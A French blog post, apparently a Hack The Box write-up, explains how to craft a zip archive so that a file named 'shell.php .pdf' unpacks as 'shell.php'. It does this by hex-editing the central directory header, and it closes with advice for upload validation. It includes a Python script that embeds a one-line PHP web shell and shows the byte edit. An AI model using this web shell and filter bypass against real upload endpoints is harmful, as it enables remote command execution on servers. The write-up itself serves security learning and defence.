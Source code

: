 ```yaml
---
title: Comment faire en sorte qu'un fichier "shell.php .pdf" devienne "shell.php"
  via la décompression d'un zip ?
img_path: "/assets/img/posts/file_zip_upload_with_different_name"
categories:
- Vulnérabilités Web
- web
---
```


## Introduction

> À l'occasion de la résolution d'une machine hack the box, une incompréhension de ma part à propos d'un payload a mené à la "découverte" d'un comportement plutôt rigolo et qui pourrait s'avérer utile dans certains cas précis : avoir une archive zip où, un fichier nommé par exemple `shell.php. pdf`se transforme en `shell.php` à la décompression. Testé avec 7z et zip sur ubuntu.

### Comment ça se passe

Pour faire synthétique, voici la procédure :

- 1) Créer un fichier zip via python (script de hacktricks) :

```python
import zipfile
from io import BytesIO

def create_zip():
    f = BytesIO()
    z = zipfile.ZipFile(f, 'w', zipfile.ZIP_DEFLATED)
    z.writestr('shell.php .pdf', '<?php echo system($_REQUEST["cmd"]); ?>')
    z.close()
    zip = open('poc.zip','wb')
    zip.write(f.getvalue())
    zip.close()

create_zip()
```

> On remarque que le nom a un espace  entre `php` et `pdf`.

- 2) Editer le fichier zip avec une éditeur héxadécimal. Remplacer l'octet `20` par `00` du nom du fichier placé dans le *[Central Directory Header](https://users.cs.jmu.edu/buchhofp/forensics/formats/pkzip.html)*.

```hex
# avant le changement du nom dans le  Central Directory header
00000080: 0000 0073 6865 6c6c 2e70 6870 202e 7064  ...shell.php .pd
# après le changement du nom dans le the Central Directory header
00000080: 0000 0073 6865 6c6c 2e70 6870 002e 7064  ...shell.php..pd
```

- 3) Profit :

![Proof of concept du tricks](poc.png)

### Dans quels cas c'est utile ?

De ce que je peux supputer, c'est utile si l'application ne checke pas la conformité entre le nom du fichier et ce qui est effectivement décompressé.

Cependant, si l'application ne teste que le *local file name* vis à vis du nom décompressé, cela laisse une petite fenêtre de temps pour pouvoir par exemple exécuter le fichier si exécutable (non testé) avant que le nom soit effectivement testé. Le plus safe est de tester l'égalité du *local file name* et du nom dans le *central directory header*. De plus, il faut absolument éviter de placer le fichier dans un dossier exécutable et au nom facilement devinable.
